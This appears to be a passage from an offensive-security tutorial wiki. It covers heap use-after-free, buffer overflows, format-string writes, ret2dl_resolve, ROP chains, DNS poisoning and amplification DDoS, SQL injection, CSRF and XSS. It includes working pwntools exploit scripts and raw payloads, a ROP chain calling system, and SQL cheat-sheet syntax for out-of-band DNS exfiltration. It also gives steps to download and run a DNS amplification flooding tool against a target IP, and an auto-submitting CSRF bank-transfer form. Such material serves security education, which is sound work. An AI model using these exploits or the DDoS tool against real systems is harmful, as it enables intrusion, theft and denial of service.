What we need is to set the IsEnabled member of the service to 1. Putting the code under scrutiny, we realise that we can freely control the IsLoggedIn member of the user through the login command. Furthermore, we can actually delete a user by invoking logout. Hmm... the Service and User structs have the same size... I wonder what would happen if I were to create a service right after I have logged out of a user. Well, let's find out!

Well, well, well, would you look at that! The service was successfully executed. But what happened?
We first created a user with register. Upon logging into the user with login, the IsLoggedIn member was set to 1. With logout, the user was deleted and the chunk on the heap was freed. However, the chunk data isn't completely overwritten (only the fwd and bwd pointers are). Consequently, the location where IsLoggedIn was stored on the heap still contains a 1. When we call service, memory was requested from the heap. Since the size was the same as the size before, malloc returned the chunk where the User struct was previously stored. Ergo, the IsEnabled member is actually stored at the same memory where IsLoggedIn was. However, we already put a 1 into that memory with login. Ergo, IsEnabled is set to 1 and the service is executed.
Stack Exploitation
Stack exploitation is the art of corrupting stack memory in order to alter a programme's behaviour in a malicious manner. This chapter assumes prior knowledge of the stack which is covered by this Cyberclopaedia article.
Introduction
An essential memory structure in many programmes is the buffer. It is simply a container for information - an array. This in itself is no threat to the programme, however, certain functions which deal with buffers are unsafe. Functions that write to buffers may overflow the buffer - that is, write to memory outside of the buffer, since the function usually doesn't have a way to infer the size of the buffer and therefore stop once it reaches it. Moreover, even a function is provided with a size up to which to write and then cease execution, this can still result in a buffer overflow, if there is a mismatch between the given and actual size of the buffer.
Buffer overflows are one of the most common vulnerabilities and can be especially dangerous if they happen on the stack, since they typically allow for easy code execution. This happens when writing outside the buffer and overwriting the procedure's return address.
Generally, any function which deals with buffers should be considered unsafe and scrutinised when looking for holes in a binary. That being said, there are certain functions which are appalling and you should never use them in your code, since they don't even take in a buffer size, but rather just do their work indefinitely or until some condition is satisfied (such as reaching a null-byte). These include gets, strcpy, strcat, sprintf, and more.
Exploiting a Buffer Overflow
#include <stdio.h>
void win()
{
printf("Pwned!\n");
}
void vuln()
{
char buffer[32];
fgets(&buffer, 0x32, stdin);
}
int main()
{
vuln();
}
To illustrate that even functions which take a size can still be dangerous when dealing with buffers, I have chosen the fgets function. If you don't have an attentive eye, you might tell yourself "But what's the matter? The size which fgets takes matches the actual size of the buffer, so no vulnerability here." Not so fast. Upon taking a closer look, you see that the size in fgets is actually 0x32. The 0x means that this is a hexadecimal number and 0x32 in hex is actually equal to 50 in decimal which is 18 bytes more that 32. Consequently, there is a buffer overflow.

fgets begins writing data at the start of the buffer and continues upwards. Given enough data to write, it will eventually reach and overwrite the return address, resulting in code execution when the vuln function returns. We now need two things to exploit the vulnerability - the address of the win function, which is fairly easy to get given disabled ASLR and gdb, and the offset from the beginning of the buffer at which vuln's return address is stored. Note that this is rarely just the size of the buffer, since other stuff may precede our buffer on the stack.
Using De Brujin sequences to identify the offset
A De Brujin sequence of order n is simply a sequence of characters in which every possible substring of size n occurs exactly once. A more mathematically rigorous explanation you can find at https://en.wikipedia.org/wiki/De_Bruijn_sequence.
De Brujin sequences are very powerful, since we can generate such a string and pass it as input to the programme. When the return address is overwritten, it will contain garbage (the sequence of characters inside of it may look like aaaaaaab, which is most likely an invalid return location) and so the programme will crash. Once it crashes, we can inspect the return address with a debugger and look up its position in the original sequence. This, therefore, provides us with the offset.
gef, a gdb extension, provides useful tools exactly for this purpose. You can generate a pattern with
pattern create --period [order] [length]

Pass this sequence as input to the programme and observe the return address when it crashes:

Look at what \\( rsp points to - faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala. We can search for this string in the original pattern like so:

Bingo, the return address is stored at offset 40 - 1 from the beginning of buffer. Ergo, before writing the address of win, 39 characters are needed. You might notice that this is according to big-endian search, but my architecture is actually little-endian. Why does this work then? Honestly, I have no clue. Perhaps it's a visual bug with gef, since if you look at their documentation, pattern search is actually supposed to output two outputs - one for a little-endian and one for a big-endian search.
Finding the address of win
For the sake of simplicity, I have disabled ASLR, meaning we can just grab the address through gdb. This turns out to be 0x5555555551a9.
Exploit
With this information, we can exploit the buffer overflow:

Shellcode Attacks
When a binary is compiled with NX disabled, it means that instructions can be executed directly off the stack. This means that an adversary may write to the stack the assembly instructions they want to be executed in the form of bytes and then take advantage of some code redirection technique (such as the buffer overflow described above) in order to point the instruction pointer to the beginning of their malicious code. The bytes that they inject onto the stack are referred to as shellcode.
Introduction
The C language provides certain functionality for converting variables into human-readable strings. This can be seen in functions like printf. For example, the following code will combine the string "Printing the magic number... The magic number is " with the number stored in a.
int a = 2;
printf("Printing the magic number... The magic number is %d\n.", &a);
The first argument is called the format string and %d is known as a format parameter. When using a variable as a format argument, you need to pass its address. There also exist multiple format parameters:
| Parameter | Meaning | Passed as |
|---|---|---|
| %p | Prints the argument as a pointer | Value |
| %% | Prints a % character | Value |
| %d | Prints a signed decimal number | Value |
| %u | Prints an unsigned decimal number | Value |
| %x | Prints the argument as a hexadecimal number | Value |
| %s | Prints a string | Pointer |
| %n | Prints nothing, but stores the number of bytes written so far in the location specified by the pointer passed as an argument | Pointer |
When printf is invoked, it goes backwards from the beginning of its stack frame through the stack in order to retrieve its arguments one by one. If a format string is specified but no actual arguments are pushed to the stack before the function is invoked, for every format parameter printf will go backwards through the stack. This will lead to the erroneous interpretation of stack memory and can lead to memory leaks. Furthermore, the %n format parameter can be utilised for writing arbitrary memory by manipulating the pointer into which it should store the number of bytes written so far. Consequently, format string vulnerabilities can beget arbitrary code execution by overwriting the GOT.
The Essence of a Format String Vulnerability
Format string vulnerabilities occur when the format string of a function such as printf is passed directly as a buffer which can be manipulated by an attacker. The buffer itself may contain format characters which can be abused in arbitrary ways.
char input[100];
scanf("%100s", input);
printf(input);
This code is abominable, since the input buffer is entirely controlled by the user. If any format parameters are included in the buffer, printf will treat them accordingly and this can result in all sorts of mishaps. The correct way to implement such code is to actually pass the user input as a format argument to a format string in printf:
char input[100];
scanf("%100s", input);
printf("%100s", input);
Leaking Memory
Format string vulnerabilities can be easily exploited to leak memory on the stack. This is typically done through the use of the %p or %x format parameters. Filling a format string with those parameters will continuously leak stack memory. Sometimes, however, the buffer we are writing to doesn't have enough space to store enough parameters for us to reach the value we want to leak. Luckily, C has some syntax sugar which allows us to retrieve a particular argument. This is done by using %n\\( parameter, where n is the number of the argument we want to access and parameter is the format parameter we want to use. Consequently, if we want to print the third value on the stack as a pointer, we would use %n \\)p.
Here is a simple example of such an attack.
leaking_memory.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(void)
{
int input = 0;
int key = 0xdeadbeef;
char message[100];
printf("Enter a message to be sent:\n");
fgets(message, sizeof(message), stdin);
printf("The following message will be sent: \n");
printf(message);
printf("Enter the secret key in order to send the message. \n");
scanf("%d", &input);
if (input == key)
{
printf("Message successfully sent!\n");
}
else
{
printf("Failed to send message!\n");
}
return 0;
}

Writing Arbitrary memory
The %n format parameter can be used to write to arbitrary memory. Recall that it takes a pointer a pointer as its argument, but where does it get this pointer from? Well, just as any other argument, this pointer is retrieved from the stack. But wait a minute... In i386 and amd64 function arguments are pushed to the stack before a procedure is invoked. Consequently, we can write any value to the stack by including it in the format string, navigating to this value with %x or %p and then just put a %n to treat this value as a location and write to it. As a shortcut, we can use the %parameter\\( n to choose a particular value on the stack to treat as a pointer.
However, writing a large value would require a lot of characters before %n. Luckily, we can print those with a shortcut. Before %n we need to insert %<value>x and this will write value characters to the screen.
writing_memory.c:
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int target = 0xdeadbeef;
int main(int argc, char *argv[])
{
char buffer[64];
fgets(buffer, 64, stdin);
printf(buffer);
if(target == 0xdeadc0de)
{
printf("Pwned!\n");
return EXIT_SUCCESS;
}
else
{
printf("Try again.\n");
exit(EXIT_FAILURE);
}
}
Upon looking at this code, we immediately notice the potential for a format string vulnerability. We need to somehow overwrite the target variable and change its value to 0xdeadc0de. This can be done through %n, but requires the address of target. You might need to use some type of leak to do this, but as an example I will use gdb, which on my machine tells me that target is located at 0x555555558048.
Since this address will be included in the format string, the location of the beginning of the format string on the stack must be found. This can be done through some light fuzzing by putting, for example, a string of As in the beginning and then following it up with %xs until the repeating As are reached. The final cound to %x that have been used is the number of the argument.

Consequently, the beginning would be the 8th argument. Consequently, it is possible to calculate the argument number for the address included in the string.
We now have the address we want to write to, all that is needed is to set up the value we want to write. This means that we have to find a way to print a number of 0xdeadc0de bytes before %n. One would be crazy for thinking that actually inserting so many bytes into the buffer is even possible. The trick here is to use specify the number of characters we want to pad %n with by using %x like so - %<padding>x%<argument> \\)n. Even still, the value is too large to be printed in a reasonable time. Here we are allowed to buck the system by splitting the value at the middle like so dead and c0de and just writing two short integers rather than one huge integer. Ergo, 0xdead should be written at 0x555555558048 + 2 = 0x55555555804a, whereas 0xc0de should be placed at 0x555555558048.
The amount of padding is given by the following formula:
<The value needed> - <Bytes already written>
It is now possible to proceed. Let's commence with the least significant bytes - 0xc0de (49374 in decimal). It is best if the address where we want to write to is put at the end of the string, since the internal stack pointer of printf only works with 8-byte displacements and, consequently, any address must have its leading 0s until it takes up the entire 8 bytes. Additionally, a certain number of non-zero bytes may need to be inserted before the address in the format string for further alignment purposes.
To simplify matters here, both 0xdeadc0de and 0xdeadbeef begin with the same bytes, so we need only overwrite the last ones. If that were not the case, one would simply have to chain multiple paddings with multiple %n format parameters. Therefore, our format string should be the following:
"%49374x%<argument>\\( n<padding bytes><zero-extended address>"
The argument number may from system to system and you have to either bruteforce it or calculate it using a debugger like gdb. I have calculated it be 10. You may need further padding bytes and the number of bytes has to either again be bruteforced or calculated. Any addresses to write to should be placed at the end of the string to avoid premature null-termination. Our final string looks like this:
"%49374x%10 \\)hnAAA\x48\x80\x55\x55\x55\x55\x00\x00"
The h before the n just tells printf to write a short instead of an int (Remember that we are only overwriting the last two bytes).
Note: You might be tempted to just print this string with python and pipe it into the program, but that's an appalling approach since the address may contain weird bytes that are outside the range of ASCII and this will result in errors. This can be bypassed by writing the exact bytes to a blank binary file and just piping the file instead of the python output. You might have to do this manually through a hex editor.
I have now created a file called input which contains the following bytes:

Piping this file into the programme results in the overwriting of the target variable!


Introduction
This is a highly sophisticated attack which leverages the way dynamic library functions are resolved at runtime in order to resolve an arbitrary procedure and invoke it.
To understand the following content, knowledge of dynamic linking with ELF files is necessary.
Theory
It is possible to use _dl_resolve to call any external function by creating a fake relocation table, symbol table, string table, and GOT. _dl_resolve performs no upper boundary checks on the relocation argument, which means that we can make it arbitrarily large and thus point it to our fake relocation table. From there, we can do the same with the rest of the offsets. It does, however, check a few other things which we will need to work around.
Because of the checks that _dl_resolve performs, the r_info must be divisible by 0x18. The distance between the real symbol table and our fake one must be divisible by 0x18 and fit in 32 bits after this division. This practically prevents us from using the stack on 64-bit systems to store our fake tables and we will need to utilise the .bss section, which is closer to the real symbol table in the executable. Additionally, r_info must end in 0x7.
For the sake of simplicity, all of the fake tables will only contain one entry. Once we have the fake symbol table set up, we need to set st_other to 0 and st_name to the distance between the real string table and our fake one, which can in this case be a single null-terminated string. Next, r_info must be populated with (( RealToFakeSymbolTableOffset / 0x18 ) << 32 ) | 0x7, where RealToFakeSymbolTableOffset is the 0x18 aligned distance between our fake and real symbol tables. Do not worry about all the bit-wise operations - these are taken care of by a few macros in _dl_resolve. r_offset on the other hand, must contain the distance between our fake global offset table and the ELF header.
The relocation argument should store the offset between the start of the real relocation table and the beginning of the fake relocation table divided by the size of one relocation entry and should be put at the top of the stack. Consequently, if gaining code execution through a stack buffer overflow, the relocation argument should follow the malicious return address.
Exploitation
#include <stdio.h>
#include <stdlib.h>
char message[128];
void SendMessage()
{
char sender[20];
printf("Enter the message: \n");
fgets(message, 128, stdin);
printf("Enter the sender name: \n");
fgets(sender, 0x40, stdin);
}
int main()
{
SendMessage();
printf("Message sent!");
return 0;
}
Manually performing this exploit can be rather extremely cumbersome. Anyway, the fake tables should be set in the following way:
Relocation argument:
-
reloc_arg = (FakeRelocationTable - RealRelocationTable) / sizeof(Relocation Entry) -
must be divisible by the size of the relocation entry:
Elf32_Rel: 8 bytesElf32_Rela: 12 bytesElf64_Rel: 16 bytesElf64_Rela: 24 bytes
Fake relocation table:
r_offset = FakeGOT - ElfHeader[+0x8] r_info = (( (FakeSymbolTable - RealSymbolTable) / 0x18 ) << 32 ) | 0x7- the distance between the fake and the real symbol table must be divisible by 0x18, so padding might be required
[+0x10] r_addend = 0 (doesn't matter)
Fake symbol table:
[+0x18] st_name = FakeStringTable - RealStringTable[+0x20] st_info = 0 (doesn't matter)[+0x21] st_other = 0
Fake string table:
[+0x22] function name = system\x00 (or any other function)
The above offsets are from the beginning of the fake relocation table and are suited to x64. You will have to change them for x86 based on the size of the struct fields.
For any arguments you want to pass to the function, you will either need to use shellcode in your initial payload buffer or utilise ROP.
Consequently, the payload for the message is
"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00"
The actual buffer that will be overflowed is the sender buffer the payload for it looks like this:
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00"
The last bytes are the value of the relocation argument and the ones before are the address of PLT0.
Indeed, running this exploit results in the programme's abortion through the abort function (you can check by the exit code).
from pwn import *
program = process("./dl_resolve")
print(program.recvlineS())
program.sendline(b"\x00\x00\x00\x00\x00\x00\x00\x00\x99\x40\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x88\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x42\x42\x42\x42\x42\x42\x42\x42\xda\x3b\x00\x00\x00\x00\x00\x00\x00\x00abort\x00")
print(program.recvlineS())
program.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x30\x50\x55\x55\x55\x55\x00\x00\x6d\x02\x00\x00\x00\x00\x00\x00")
program.interactive()

The abort procedure takes no arguments which made manual exploitation easier, however, when you want to invoke a function with parameters, such as system, you will need to either execute additional shellcode before jumping to PLT0, or build a ROP chain.
Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises gadgets in order to build chains and execute arbitrary instruction sequences.
Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the ret instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.
Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a ret instruction. To manually find them within a binary, one might use a tool called ROPgadget with the following basic syntax:
ROPgadget --binary [binary name]

(This is just a small portion of the output.)
Exploitation
#include <stdio.h>
#include <stdlib.h>
void func()
{
system("echo 'An inconspicuous echo...'");
}
void vuln()
{
char input[20];
fgets(input, 0x60, stdin);
}
int main()
{
char* HarmlessString = "echo pwn";
vuln();
func();
return 0;
}
We immediately notice a potential buffer overflow. Since system is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string "/bin/sh" has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute system("/bin/sh"). Well, let's start digging.
Running ROPgadgets on the above binary reveals a way to write to rdi!
0x000000000000126b : pop rdi ; ret
Consequently, we can just write the address of the "/bin/sh" string in the binary, place it on the stack and, when the time comes, rdi will be populated with this address. All we will then need to do is return to the PLT entry of system, so that the function is invoked with the correct argument!
The addresses we need turn out to be:
0x555555555040 - PLT entry of system
0x55555555526b - pop rdi; ret gadget
0x555555556028 - "/bin/sh"
0x5555555551ff - the address we want to continue execution from once the ROP chain is finished
Knowing that we need exactly 40 character to overflow the return address of vuln, we get the following payload.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00

Input file:

And... exploit!

Exploiting with pwntools
pwntools comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.
You will first need to load the ELF executable and specify its base address:
elf = ELF('./rop')
elf.address = 0x555555554000
Subsequently, initialise a ROP object:
rop = ROP(elf)
Pwntools ROP commands
Get a dictionary of available gadgets:
rop.gadgets

Insert raw bytes into the chain:
rop.raw(bytes)

Call functions:
rop.call(symbol, [arguments])

Get chain as bytes:
rop.chain()

The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
#!/usr/bin/python3
from pwn import *
context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000
rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])
prog = process('./rop')
payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)
prog.sendline(payload)
prog.interactive()

DNS
Introduction
A flaw of all DNS name servers is that if they contain incorrect information, they may spread it to clients or other name servers. Each DNS name server (even individual clients) has a DNS cache. The system stores there information about any responses it gets for domains it requested. An attacker could inject false entries in this cache and as such, any computer which queries the poisoned name server will receive false results. This is known as DNS cache poisoning.
The attack can be used to redirect users to a different website than the requested one. As such, it opens opportunities for phishing attacks by creating evil twins of login portals for well-known sites.
A tool for performing such targeted attacks is deserter. Usage information is available on its GitHub page.
What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an amplification attack because it uses DNS responses to upscale the size of the data sent to the victim.
How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type ANY which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.
Conducting a DNS Traffic Amplification Attack
Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through Metasploit using the module auxiliary/scanner/dns/dns_amp.

In the RHOSTS you need to put the IP of the name server you want to test. This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.
Run the scanner:

Executing the attack
A simple tool is available only as a proof of concept here. You will need to download and then compile it:
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─\\( wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11-- https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’
dnsdrdos.c 100%[========================================================================================================================================>] 14.75K --.-KB/s in 0.001s
2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─ \\) gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─\\( sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------
dnsdrdos - by noptrix - http://www.noptrix.net/
-----------------------------------------------
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─ \\)
The output may be empty, but the packets were sent. You can verify this with wireshark:

Web
SQL Injection
Database Metadata
Database engines provide tables with the database's metadata. This metadata table is different for the different engines:
| Engine | Table Name |
|---|---|
| SQLite | sqlite_master |
| MySQL | information_schema |
| PostgreSQL | information_schema |
| Oracle | dba_tables |
Database Version
| Database | Version Info |
|---|---|
| Oracle | SELECT banner FROM v\\( version SELECT version FROM v \\)instance |
| Microsoft | SELECT @@version |
| PostgreSQL | SELECT version() |
| MySQL | SELECT @@version |
Database Contents
Listing tables and the columns they contain:
| Database | Contents Info |
|---|---|
| Oracle | SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'Table Name' |
| Microsoft | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
| PostgreSQL | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
| MySQL | SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'Table Name' |
String Concatenation
| Database | Concatenation |
|---|---|
| Oracle | 'a'||'b' |
| Microsoft | 'a'+'b' |
| PostgreSQL | 'a'||'b' |
| MySQL | 'a' 'b' (space) or CONCAT('a','b') |
Unconditional Time Delays
Replace delay with the desired delay in seconds.
Database | Delay Syntax
---------| ------------
Oracle| dbms_pipe.receive_message(('a'),delay)
Microsoft| WAITFOR DELAY 'hours:minutes:seconds'
PostgreSQL| SELECT pg_sleep(delay)
MySQL| SELECT sleep(delay)
DNS Lookups
| Database | Lookup Syntax |
|---|---|
| Oracle | SELECT UTL_INADDR.get_host_address('domain') - requires elevated privileges |
| Microsoft | exec master..xp_dirtree '//domain/a' |
| PostgreSQL | copy (SELECT '') to program 'nslookup domain |
| MySQL | These work only on Windows LOAD_FILE('\\\\domain\\a') SELECT ... INTO OUTFILE '\\\\domain\a' |
Network Layer Defences
A web application firewall (WAF) can be configured to drop certain requests that look suspicious.
Common bypasses:
- inserting comments
- changing character case
- using synonyms of symbols (= equals)
Application Layer Defences
- Do not write dynamic queries
- Sanitise user input
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
Database Layer Defences
- Update DBMS
- Minimise privileges
- Proper login and monitoring
Introduction
You can test for SQL injections by injecting a single quote (') into any input fields or parameters which are sent to the server. Sometimes the server errors out and if proper error handling isn't implemented in the target application, the error my provide you with useful infomation such as the database engine, its version or even parts of the query into which you tried to inject.
Overview
SQL Injections allow an attacker to alter queries that an application sends to its database. This may enable the attacker to view data which they usually shouldn't have access to, edit this data arbitrarily, or modify the actual database in ways that they shouldn't be able to. In general, SQL injections could allow for the following:
- Reading sensitive data from a database
- Modifying the database data with
insert,update, ordeletequeries - Execution of privileged commands such as shutting the entire database down
- Reading files from the file system that the database is stored on
- Writing files into the file system
- Execution of additional OS commands
Types of SQLi
-
In-band - the attacker launches the attack and obtains the results through the same communication channel
- Error-based injections - retrieve information about the database, its structure and data, from error messages
- Union-based injections - combine results from a legitimate query with those from the attack in order to obtain data
-
Out-of-band - the results from the attack are exfiltrated using a different channel than the one the query was issued through
- Examples include creating an HTTP connection for sending results to a different web server or DNS tunneling
- It requires specific extenstions to be enable in the database management software
- The targated database server must be able to send outbound network requests without any restrictions
-
Blind (Inferential) - they rely on changes in the behaviour with the database or application in order to extract information, since the actual data isn't sent back to the attacker
- usually detected through time delays or boolean conditions
Introduction
Union injections allow you to retrieve information from other databases by injecting an additional SELECT query. The latter will append its results to the initial query.
Suppose you have an application which executes the following query:
SELECT name, description FROM products WHERE category = 'food';
If an attacker can inject into the query, they could send the following input:
' UNION SELECT username, password FROM users--
This would append the "username" and "password" columns of the users table respectively to the columns "name" and "description" from the original query.
Determining the amount of columns returned
In a union injection, the number of columns in the injected query must match the number of columns in the original query. You can determine the number of columns by using the following query and keep appending NULLs until you observe a change in behaviour:
UNION SELECT NULL--
UNION SELECT NULL, NULL --
And so on.
Searching for columns which return entries of a particular type
Once you have determined the amount of columns, you can look for columns that contain entries of a specific type. Suppose the original query has 3 columns.
UNION SELECT NULL, NULL, NULL --
You can start replacing the NULLs one by one with a random string of text enclosed in quotation marks until you observe a change in behaviour:
UNION SELECT 'random text', NULL, NULL --
UNION SELECT NULL, 'random text', NULL --
And so on.
Overview
Certain vulnerabilities allow the attacker to input encoded characters that possess special meanings in HTML and HTTP responses. Usually, such input is sanitised by the application, however, sometimes application developers simply forget to implement sanitisation or don't do it properly.
Carriage Return (CR - \r) and Line Feed (LF - \n) can be represented with the following encodings, respectively - %0D and %0A.
CRLF injection occurs when a user manages to submit a CRLF (a new line) into an application. These vulnerabilities might be pretty minor, but might also be rather critical. The most common CRLF injections include injecting content into files on the server-side such as log files. Through cleverly crafted messages, an attacker could add fake error entries to a log and therefore make a system admin spend time looking for an issue that doesn't exist. This isn't really powerful in itself and is rather akin to pure trolling. Sometimes, however, CRLF may lead to HTTP Response Splitting.
Overview
Cross-Site Request Forgery (CSRF) is a type of attack used to trick the victim into sending a malicious request. It utilises the identity and privileges of the target in order to perform an undesired action on the victim's behalf. It is similar to indirect impersonation - you can make the victim's browser submit requests as the victim. It is called "cross-site" because a malicious website can make the victim's browser send a request to another website.
This attack typically relies on the victim being authenticated - either through cookies or basic header authorization.
How does it work
There are two primary types of CSRF - through GET requests and through POST requests (although methods like PUT and DELETE may also be exploitable).
When your browser submits a request to a web server, it also sends along all stored cookies. If CSRF occurs, any authentication cookies will be sent with the request and as such, any actions on the server would be performed on the victim's behalf. Note that in order for CSRF to work, the victim needs to be logged in because when you make a log out request, the web server usually returns an HTTP response which auto-expires your authentication cookies and they are no longer valid.
In order for it to work, the victim would need to visit your malicious website.
The GET scenario
This typically relies on hidden images through the HTML <img> tag. This tag takes an src attribute which will tell the victim's browser to perform a GET request to the specified URL in order to retrieve an image. However, an attacker can change this URL and even add parameters to it, so that the browser performs a GET request to any arbitrary site.
An example of such a malicious hidden image could be this:
<img src="http://bank.com/transfer?recipient=John&amount=1000" width="0" height="0" border="0">
When visiting your malicious site, this will make the victim's browser submit a GET request. Any cookies stored for bank.com would be sent along, including any authentication ones. As such, the bank would complete the transfer from the victim's account.
The POST scenario
If the bank uses POST requests for transfers, the <img> method won't work because image tags can't initiate POST requests. This can however be achieved through hidden forms.
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://bank.com/transfer' target="csrf-frame"
id="csrf-form">
<input type='hidden' name='recipient' value='John'>
<input type='hidden' name='amount' value='1000'>
<input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
Normally, the submition of the form will require that a user clicks the submit button, but this can be automated through Javascript. The response from the submission of the POST request would be redirect to the non-displayed iframe and so the victim would never see what has happened.
Preventions
CSRF Tokens
Sometimes, websites will make use of two-part tokens called CSRF tokens in order to prevent cross-site request forgery. These tokens are generated on the server - one part is sent to the user and the other is kept private. This value is submitted with the request and validated on the server. If the CSRF token isn't correct, the server shouldn't fulfill the submission.
These tokens may be part of the POST request's body or as custom HTTP headers. They may take on any name, but some common ones include CSRF, CSRFToken, X-CSRF-TOKEN, form-id, lt, lia-token, etc.
You should always try removing or altering the CSRF token in order to check if it's properly implemented.
CORS
When a browser sends an
application/json POST request to a site, it will send an OPTIONS request beforehand. The site then returns a
response indicating which types of HTTP
requests the server accepts and from what trusted origins. Such OPTIONS requests are called preflight OPTIONS requests.
CORS, or Cross-Origin Resource Sharing, restricts resource access, including JSON response access, from domains outside the one which served a file is allowed by the site being tested. When CORS is used, submitting application/json requests are not possible, unless the website explicitly allows them.
These protections can sometimes be bypassed by changing the content-type header to application/x- www-form-urlencoded, multipart/form-data, or text/plain. Browsers don't send preflight OPTIONS requests for any of these content types and CSRF requests might succeed.
Origin and Referer Headers
Checking the Origin and Referer headers (if the origin header isn't present) prevents CSRF because these headers are controlled by the browsers and cannot be altered by the attacker
samesite Cookie Attribute
This attribute can take on the values strict or lax. When set to strict, the browser won't send that specific cookie with any request that doesn't originate from the correct website - including GET requests.
Setting the attribute to lax will prevent the cookie from being sent on normal subrequests (such as loading images or frames), however, the cookie will still be sent with direct requests to the origin site (such as those initiated by clicking on a link).
Overview
Cross-site scripting (XSS) describes the set of attacks where the attacker injects Javascript into a web application, typically because user input isn't properly sanitised. It is similar to HTML injection, however, it allows for the execution of Javascript code and that makes it a potentially critical vulnerability.
XSS vulnerabilities can be exploited in three major ways:
- stored (persistent) XSS
- reflected XSS
- DOM-based XSS
These attacks usually require user interaction.
Reflected XSS
Reflected XSS occurs when an application receives data which it then includes in its reply to the submitted HTTP request. This is typically exploited by creating a malicious link containing a script inside it and then tricking a user into clicking visiting that URL.
This type of XSS allows the attacker to perform any action on the application as the target. It is commonly used for stealing non-httponly cookies.
Suppose you have a search bar somewhere in your application, the contents of which are sent as a URL parameter in a GET request when a user clicks the search button and are then displayed on the response page in a similar manner:
Search results for: <search text>
The request could be to the following example URL:
example.com/?search=val
If your application is vulnerable to XSS, the attacker could craft a malicious URL like the following one:
example.com/?search=<script>alert('test')</script>
This would inject the Javascript as HTML into the <search text> on the response page and the browser would then execute the code.
Stored XSS
Stored, or persistent, XSS is similar to reflected XSS, with the difference being that the injected code is actually stored onto the web server and then later distributed to anyone who requests the injected web page. This type of XSS is much more severe, since it can spread around.
Once Javascript has been injected and stored on the web server, the malicious Javascript will be delivered to and executed by any user who requests the specific web page.
DOM-based XSS
DOM-based XSS is a type of XSS where the malicious code is never sent to the server. This commonly occurs when using the fragment part of a URL, or by referencing document.URL / document.location.href.
This a less common attack nowadays, since most browser automatically escape Javascript in address bars, so DOM-based XSS will only work if you unescape it.
Suppose you have a page on
http://127.0.0.1:8080/example.html
You can add fragments to the URL with a # symbol.
http://127.0.0.1:8080/example.html#test=val
